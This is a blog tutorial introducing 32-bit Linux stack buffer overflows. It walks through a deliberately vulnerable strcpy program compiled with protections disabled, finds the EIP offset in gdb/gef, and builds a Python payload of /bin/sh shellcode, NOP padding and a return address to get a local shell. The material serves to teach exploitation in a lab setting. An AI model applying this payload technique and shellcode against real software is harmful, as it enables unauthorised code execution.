

Adrien
Saturday, September 12, 2020
#1 Introduction to linux buffer-overflow 32-bit
What’s a BufferOverflow ?
A BufferOverflow consists in overwriting the EIP stack of a program at a given time in order to compromise an application.
Stack overflow can be done by different means, but the main problem comes from a bad management of a buffer during the input by a user.
Why ?
- To crash an application (a DOS)
- Have a shell with privileged rights
- To steal information (Leak Memory)
- Have a reverse shell or a remote bind shell
Requirements
Before starting the exploitation of our binary, we must disable the ASLR protection activated by default under linux.
To disable it enter the following command:
sudo sysctl kernel.randomize_va_space=0
I suggest that you have a good knowledge of memory management, assembler and GDB use before continuing.
Code
#include <string.h>
#include <stdio.h>
int vulnerable(char *argument){
char buffer[100];
strcpy(buffer, argument);
return 0;
}
int main(int argc, char *argv[]) {
vulnerable(argv[1]);
printf("Fin du Programme!\n");
return 0;
}
Compile
If you use a 64Bits, you must install the 32Bits libraries :
sudo apt install gcc-multilib
On Archlinux :
sudo pacman -S lib32-glibc lib32-gcc-libs
To compile the program, use gcc with the options below:
gcc -m32 -fno-stack-protector -z execstack -o buffer_32 buffer_32.c -no-pie
Explanation
The binary is quite simple, it takes a char in input.
int main(int argc, char *argv[])
This char value is then sent as argument to vulnerable() function o be copied inside a buffer of size 100 using strcpy().
[...]
vulnerable(argv[1]);
[...]
strcpy(buffer, argv[1]);
If the user put an input lower than 100 characters, the program is executed correctly.
On the other hand, if the input is more than the buffer size, the program crash ! Because there are not enough space allocated for him.
In the screenshot we can see the first normal use of the program.
In the second command, we use python to input a buffer of 100 A. which made crash the application. (segmentation fault)
Exploitation
First execution
Great , since we know how the program crashed, we can start the exploitation.
Let’s start by opening it with gdb (If you don’t have gdb, just install it using apt)
gdb buffer_32
I’m using gef plugin to have a better game experience ;)
We will run our program a first time with the run command.
For the moment what interests us is the result of the “ltrace” in green, we can see interesting functions like :
- main()
- vulnerable()
We can continue our analysis with the command disas which will allow us to display the assembly code of a function, we start with main.
In red you can see where the function vulnerable() is called.
Same handling as with the main().

In red this time we can see our strcpy() function vulnerable to the buffer.
Overflow of “A”
Well now, let’s go to the buffer, we’re going to redo the same crash from the beginning but this time with gef to see what happens.
gef➤ run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Now we can see why the program crashes.
EIP which is supposed to contain the address of the next instruction is filled with AAAA which gives in hexadecimal 0x41414141.
Padding size
Now that we can see the content of EIP, we will find the padding, i.e. the number of characters it takes to get to EIP.
The final goal is to be able to manipulate the value of EIP with for example ABCD.
To do this, we will create a pattern using gef:
gef➤ pattern create 116
We start the program using the pattern generated :
gef➤ run aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaab
Do a search of the pattern by retrieving the address of EIP :
gef➤ pattern search 0x62616164
We have a size of 112 before we overwrite EIP.
Now we will create a pattern of 112 “A “ and add “ABCD “ at the end, if all goes well, we should see “ABCD” in EIP.
gef➤ run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
Nice !
Payload
For the creation of our payload, we need :
- The distance to EIP
- A shellcode
- The address where the shellcode starts (SIP)
Our payload should look like this:
| SHELLCODE (n) | PADDING (112 - n) | SIP |
|---|
The padding will have to take in consideration the size of the shellcode because it will be technically in the padding.
Shellcode
For the shellcode, I will use a ready-made one, available at this address : shell-storm.org/shellcode
Beware of shellcode that you find in the wild, make sure you always know and understand all the exploits you find on the internet
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
It is a 23 bytes x86 shellcode that will execute /bin/sh.
Our shellcode is 23 bytes long, which will give us a padding of 89.
| SHELLCODE (23) | PADDING (89) | SIP |
|---|
Padding
For the padding, it’s quite simple, we will put x90 instructions, NOP, in place of our “A” to avoid a bad interpretation of the “A” by our program.
"\x90" * 89
SIP
The SIP is the address of the beginning of our shellcode, this address will be added in EIP what will make point EIP on our shellcode.
To find the SIP, I will show you 2 methods.
-
The first one with GDB which will display us the address of the first argument of the
strcpyfunction -
The second one will be a bit longer but just as interesting, using the dump of a crash and browsing the stack with gdb.
Payload generation
With python I will save my payload in a payload.bin file
shellcode = "\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "\x90" * 89
SIP = "\x41\x41\x41\x41" # SIP = "AAAA"
payload = shellcode + padding + SIP
with open("payload.bin", "wb") as f:
f.write(payload)
For the moment we will put “AAAA” in SIP because we don’t know it yet.
To execute the payload, I advise you to use python2.
1st Method: GDB
First of all, we will place a breakpoint on the strcpy() function which is in vulnerable().
gef➤ b * 0x080491a3
Then we execute our payload like this:
gef➤ r $(cat payload.bin)
Arrived on the breakpoint, we can see in the section arguments guessed our function strcpy() which takes two arguments, in the green square.
Here only the first address in red interests us.
So here is our SIP: 0xffffd17c.
Remember to put it in Little-Indian in your python code:
\x7c\xd1\xff\xff
2nd Method : COREDUMP
For the coredump method, you will need the coredumpctl tool.
We’ll crash our application with our python payload. (The one with the “AAAA” in SIP)
As you can see, the program returns a segmentation fault (core dumped) which is normal.
Now we’ll look for that dump:
coredumpctl list
A list of dump is displayed, we recover the PID of the last one.
Then we open the dump with gdb :
coredumpctl gdb 7524
We display the stack ESP registry:
gef➤ x/80x $esp-180
reading from right to left by column and from left to right by row
You should have something like this:
- In green we have the beginning of our shellcode (31,c9,31,2d)
- In yellow we have the “AAAA” of our payload
- In purple the NOP
- And finally in red our SIP
So be careful! It is not always necessary to take the address of right-hand side, it is necessary to take the address of beginning of the shellcode.
Often you have to increment the address until you find it, a good technique is to use the following command:
gef➤ x/1xb <address>
You place your address and increase by 1 (in hexa) until you find your “\x31”:
Pwned !
Now that your payload is complete, all you have to do is execute it!